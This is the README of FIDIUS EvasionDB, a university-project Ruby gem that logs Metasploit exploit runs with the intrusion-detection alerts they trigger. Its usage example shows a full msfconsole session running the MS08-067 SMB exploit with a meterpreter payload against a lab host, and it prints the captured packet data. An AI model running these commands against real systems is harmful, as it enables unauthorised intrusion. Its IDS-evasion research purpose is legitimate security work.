 # FIDIUS EvasionDB

The FIDIUS EvasionDB Gem provides a database which contains knowledge about metasploit exploits
and their corresponding alerts/events produced by intrusion detection systems (IDS). It includes a
Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

## Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit [fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -c

Follow the instructions. 

This Gem currently uses 2 databases:

 * `ids_db`: A Prelude Manager database for fetching IDMEF events.
 * `evasion_db`: Knowledge database for information about exploits and their IDMEF events.
 
Please note: The Evasion-DB Gem has only been tested with Linux systems and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with PostgreSQL and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or
from external scripts by requiring the Gem. The first method (use in `msfconsole`) is intended to
generate knowledge about exploits. You can execute any module within metasploit and log
corresponding IDMEF events. 

Please note: Currently it is only possible to fetch IDMEF events from an existing and configured
Prelude Manager database. At the beginning of a module execution, the timestamp and number of total
events in prelude are measured. After the module is finished newly generated events are identified
via timestamp and the attackers source IP address.

### In MSF console

Example for monitoring an exploit. After loading the plugin all modules which are executed by
metasploit will be monitored. All payload which is send to the target will be stored in the
Knowledge database. After executing of the module finished generated IDMEF events will be fetched
from the Prelude database and stored to the Knowledge database, too.
  
    $ msf > load evasiondb
    $ [*] EvasionDB plugin loaded.
    $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
    $ msf > use exploit/windows/smb/ms08_067_netapi
    $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
    $ PAYLOAD => windows/meterpreter/bind_tcp
    $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
    $ RHOST => 10.20.20.1
    $ msf exploit(ms08_067_netapi) > exploit
    $ [*] Started bind handler
    $ [*] Automatically detecting the target...
    $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
    $ [*] Selected Target: Windows XP SP2 German (NX)
    $ [*] Attempting to trigger the vulnerability...
    $ [*] Sending stage (749056 bytes) to 10.20.20.1
    $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
    $ meterpreter > exit
    $ [*] Meterpreter session 1 closed.  Reason: User exit
    $ msf exploit(ms08_067_netapi) > show_events
    $ ------------------------------------------------------------
    $ exploit/windows/smb/ms08_067_netapi with 47 options
    $ ------------------------------------------------------------
    $ 11 idmef-events fetched
    $ ------------------------------------------------------------
    $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
    $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
    $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
    $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
    $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
    $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
    $ msf exploit(ms08_067_netapi) > 

### From external scripts or IRb

From external scripts or inside IRb, there are only queries to the Evasion DB possible.
The usage is quite simple.

Just `require 'fidius-evasion'` in your script and call 

    FIDIUS::EvasionDB.config 'path/to/your/database.yml'

This will connect to the database and give you the possibility to use one of the query methods below. 

### Queries

Sample how the knowledge in EvasionDB can be queried:

    ruby-1.9.1-p378 > require 'fidius-evasiondb'
    => true 
    ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
    ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
    ruby-1.9.1-p378 > events.size
    => 11 
    ruby-1.9.1-p378 > events.first.severity
    => "medium" 
    ruby-1.9.1-p378 > events.first.text
    => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit

    ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
    => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents

    ruby-1.9.1-p378 > event = m.idmef_events.first
    => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets

    ruby-1.9.1-p378 > m.packets.first
    => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet

    ruby-1.9.1-p378 > m.packets.first.payload
    => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit

    ruby-1.9.1-p378 > m.attack_options.first.option_key
    => "EXITFUNC" 
    ruby-1.9.1-p378 > m.attack_options.first.option_value
    => "thread" 

## Import and export the database

Run

    $ fidius-evasiondb -e 

in your Metasploit root to dump the database into a directory. It will create a directory named `evasion_db_yyyy-mm-dd-hhmmss` which contains a `schema.rb` file with the table structure and an `evasion_db.yml` file with the database dump.

To import an Evasion DB, simply run

    $ fidius-evasiondb -i dump_dir 

where `dump_dir` is a path to a directory that contains an exported Evasion DB.

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius+evasiondb@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm+evasiondb@tzi.de>
 * Jens Färber <jfaerber+evasiondb@tzi.de>

If you have any questions, remarks, suggestion, improvements, etc. feel free to drop a line at the 
addresses given above. You might also join `#fidius` on Freenode or use the contact form on our
[website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
